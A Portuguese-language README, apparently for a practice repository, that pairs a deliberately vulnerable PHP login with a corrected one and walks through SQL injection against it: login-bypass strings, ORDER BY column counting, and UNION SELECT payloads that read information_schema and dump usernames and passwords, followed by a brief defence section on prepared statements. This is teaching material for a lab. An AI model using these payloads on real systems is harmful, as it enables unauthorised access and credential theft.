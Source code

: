 SQL Injection - Exemplo de login vulnerável e um login corrigido.

obs.: Os usuários que tem a senha em hash somente logam no login.php.

Temos dois logins.

login.php - Onde as vulnerabilidades foram corrigidas.
login_vul.php - Onde você efetuara os testes abaixo, esse é o nosso login vulnerável.
Temos também uma falha no banco que permite a execução da do teste número 2.

Como Testar Corretamente a Vulnerabilidade?

Na página login_vul.php

Teste esse payload simples:

obs.: Após o payload tem um espaço, não esqueça dele.

### Teste 1 ###
Nesse teste, é adicionado ao final dois traços, informando a query sql que será montada pela aplicação que o que vem a seguir é comentario e não precisa ser executado, com isso invalidamos o retante da query.

Username: admin' --
Password: [qualquer coisa]

### Teste 2 ###
Neste teste a consulta se torna:
SELECT * FROM usuarios WHERE login = 'admin' OR '1'='1' AND senha = '...';
'1'='1' é SEMPRE verdadeiro em SQL
Isso faz com que toda a condição seja verdadeira, ignorando a verificação da senha

Username: admin' OR '1'='1
Password: x
Deve retornar o primeiro usuário da tabela

### Teste 3 ###
Caso o anterior não funcione.
Username: admin' OR 1=1 --
Password: x


Agora segue um passo a passo de todos os teste possíveis em linha de raciocinio.

Este tutorial demonstra como explorar uma vulnerabilidade de SQL Injection em um sistema de login vulnerável, usando técnicas para:

✅ Descobrir o número de colunas
✅ Identificar colunas úteis
✅ Extrair dados sensíveis (usuários, senhas, tabelas)

🔍 Passo 1: Confirmar a Vulnerabilidade
Payload básico para verificar SQL Injection:

sql

' OR '1'='1

Se o login for bem-sucedido sem credenciais válidas, o sistema é vulnerável.

Exemplo de query resultante:

sql

SELECT * FROM usuarios WHERE username = '' OR '1'='1' AND password = 'qualquer';
→ Retorna todos os usuários porque '1'='1' é sempre verdadeiro.

📏 Passo 2: Descobrir o Número de Colunas (ORDER BY)
Usamos ORDER BY para determinar quantas colunas a tabela tem.

Técnica: Incrementar até dar erro
sql

' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--  
...  

Exemplo:

Se ORDER BY 5 funcionar, mas ORDER BY 6 der erro → 5 é o número de colunas.

🔄 Passo 3: Confirmar Colunas com UNION SELECT
O UNION SELECT exige o mesmo número de colunas da query original.

Payload genérico (substitua X pelo nº de colunas):
sql

' UNION SELECT 1,2,3,...,X--  

Exemplo para 4 colunas:

sql

' UNION SELECT 1,2,3,4--  

O que observar:

Se aparecerem números na tela (ex: 2 e 3), essas são colunas visíveis (úteis para extrair dados).

📦 Passo 4: Extrair Nomes das Tabelas (SQL Injection em INFORMATION_SCHEMA)
Se soubermos que o banco é MySQL/MariaDB, podemos listar tabelas:

Payload para listar tabelas:
sql

' UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema = database()--  

Resultado esperado:

Nomes de tabelas como usuarios, clientes, produtos, etc.

🔓 Passo 5: Extrair Colunas de uma Tabela
Suponha que descobrimos a tabela usuarios. Podemos listar suas colunas:

Payload para listar colunas:
sql

' UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_name = 'usuarios'--  

Resultado esperado:

Colunas como id, username, password, email, etc.

💻 Passo 6: Extrair Dados Sensíveis (Usuários e Senhas)
Agora que sabemos a estrutura, extraímos os dados:

Payload para extrair usuários e senhas:
sql

' UNION SELECT 1,username,password,4 FROM usuarios--  

Se as senhas estiverem em texto puro:
→ Aparecerão diretamente.

Se estiverem hasheadas (ex: MD5, SHA-1):
→ Podemos tentar quebrar offline com ferramentas como John the Ripper ou Hashcat.

🛡️ Como se Proteger? 
Use Prepared Statements:

php

$stmt = $pdo->prepare("SELECT * FROM usuarios WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);

Armazene senhas com hash (ex: password_hash() + password_verify())

Valide entradas (filtros, regex, escape de caracteres)

📌 Conclusão
Este tutorial mostrou como:

1️⃣ Testar vulnerabilidade (' OR '1'='1)
2️⃣ Descobrir colunas (ORDER BY e UNION SELECT)
3️⃣ Extrair tabelas e colunas (information_schema)
4️⃣ Extrair dados (usuários e senhas)

Se você chegou até aqui parabéns.
Adicionei um arquivo de deploy que faz verificações de segurança, você pode checar no menu do repositório na aba Security.
